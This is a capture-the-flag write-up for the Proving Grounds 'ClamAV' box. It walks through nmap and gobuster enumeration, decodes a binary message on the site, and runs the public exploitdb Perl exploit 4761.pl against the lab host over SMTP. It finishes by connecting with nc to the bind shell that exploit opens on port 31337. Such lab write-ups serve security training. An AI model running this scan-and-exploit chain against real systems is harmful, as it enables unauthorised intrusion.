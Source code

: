 ```yaml
---
layout: default
title: x001-ClamAV
nav_order: 2
has_children: false
parent: ProvingGrounds
grand_parent: Writeups
---
```


## x001-ClamAV
### Enumeration 

####  NMAP
```bash
nmap -A -T4 192.168.148.42 -p-
```

We have the following list of open port : 
- 22
- 25
- 80
- 139
- 199
- 445
- 60000

![](attachments/Pasted%20image%2020220219175320.png)

We can run a vuln script on those ports :
```bash
nmap -sV --script vuln 192.168.148.42 -p22,25,80,139,199,445,60000
```

The list of vulnerabilities doesn't provide anything useful to exploit the box

#### Website 
Accessing the website, we have the following message : 
```
01101001 01100110 01111001 01101111 01110101 01100100 01101111 01101110 01110100 01110000 01110111 01101110 01101101 01100101 01110101 01110010 01100001 01101110 00110000 0011 0000 01100010
```

Resulting in : `ifyoudontpwnmeuran00b`

##### Gobuster 

Using gobuster to detect folder on the webserver : 
```bash
gobuster dir -u http://192.168.148.42/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

It indicates a folder `/doc` but it's protected (403 error) and the tool 4-zero-3 bypass could reach the page. 

#### Smb 
Searching for the information inside the share using enum4linux doesn't give us more information. 

#### Other
After searching the name of the box in google, I have find out that it correspond to a software.

Looking for information on this software inside the exploitdb provide me the following output  : 
```bash
searchsploit clamav 
```

![](attachments/Pasted%20image%2020220219185703.png)

The latest exploit is to use an open SMTP server (it's our case, the port 25 is open on our box) 

So if we copy the exploit and run it : 
```bash
cp /usr/share/exploitdb/exploits/multiple/remote/4761.pl ./
perl 4761.pl 192.168.148.42
```


If we check the detail of the exploit, it opens the port 31337 for a remote shell access, we could use nmap to verify if the port is open or not : 

```bash
nmap -p 31337 192.168.148.42
---
PORT      STATE SERVICE
31337/tcp open  Elite
```

Using nc we finally receive the access to the machine : 
```bash
nc  192.168.148.42 31337 
```

![](attachments/Pasted%20image%2020220219190144.png)

